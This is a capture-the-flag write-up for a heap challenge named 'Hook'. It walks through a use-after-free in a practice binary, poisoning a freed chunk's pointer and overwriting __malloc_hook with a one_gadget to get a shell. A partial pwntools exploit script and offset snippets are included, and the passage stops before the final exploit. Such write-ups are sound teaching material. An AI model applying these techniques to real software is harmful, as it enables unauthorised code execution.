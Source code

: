 # Hook
> Write-up author: jon-brandy

## Lessons Learned:
- Code Review.
- Exploiting double free vuln.
- Overwrite __malloc_hook() with one_gadget.

## DESCRIPTION:

Go and install your favorite hook! malloc or free? Which do you prefer?

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, not stripped, and dynamically linked.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/802741f5-a8cb-45da-853d-5dc3657c31c7)


> Binary Protections

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/c8049608-a580-4e9b-a7ec-4d2433dbd59c)


2. Upon reviewing the source code, seems we can create chunks up to 6 times, free the chunk, and edit it's content.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/4a5002f7-3ca7-4423-8bd9-f4e01545f50a)


3. Found the vuln at the free() function which not set the freed chunks pointer to NULL. This could be leverage to do UAF or double free.
4. The worst outcome is to spawn shell by overwriting `__malloc_hook()` or `__free_hook()` to `system("/bin/sh")`.
5. So everytime it called, the binary should just executes `system("/bin/sh")`.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/f48599d7-1ea5-4eaa-ba20-e1486309b3ab)


6. Reviewing the main() function, seems we do not need to leak main_arena address, because libc puts printed.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/302fc1f0-6785-4092-9901-f88128239198)


7. However, we can't do double free because the libc version has protection for that.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/66688fc1-2d03-4e4a-a145-8f01069e2ce5)

> PROOF

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/97511c87-3e96-4596-90f1-c14128c0c4e3)


8. BUT, noticed there is an edit() function, which we can use to overwrite the metadata of the second chunk.
9. So we can overwrite it's FD with fake fast near `__malloc_hook()`.

### Exploit Strategy

```
- Overwrite FD's of the second chunk with fake fast near __malloc_hook().
- Identify the correct padding to overwrite __malloc_hook() with one_gadget.
```

10. Now let's identify the offset to drop `__malloc_hook()`.

> TEMPORARY SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './libc-2.31.so'
libc = context.binary = ELF(library, checksec=False)

def malloc(size, data: bytes):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', f'{size}')
    sh.sendlineafter(b':', data)

def free(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', f'{index}')
    sh.sendlineafter(b':', data)

sh = process(exe)
# sh = remote('rivit.dev', 10024)

sh.recvuntil(b'puts @ ')
get = sh.recvline().strip()
leaked = eval(get)
log.success(f'LEAKED LIBC PUTS --> {leaked}')

libc.address = leaked - libc.sym['puts']
log.info(f'LIBC ADDRESS --> {hex(libc.address)}')

malloc(0x68, b'A' * 8)
malloc(0x68, b'B' * 8)

free(0)
free(1)

gdb.attach(sh)

sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/a49de579-0e3a-4fb6-9fbb-2f31bb725f30)


11. Found the offset at 51.
12. Great! Now let's overwrite the second chunk with `__malloc_hook` by adding this LOCs.

```py
sh.sendlineafter(b'>', b'3')
sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', pack(libc.sym['__malloc_hook'] - 51))
```

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/a92df7ed-b605-410a-81a3-8d8f506ae763)


13. Now let's identifyt he correct pads to overwrite it's FD.
14. The easiest way is to allocate 0x68 sized field but filled it with 0x60 junk data so it would not go to segfault.

> Identify offset

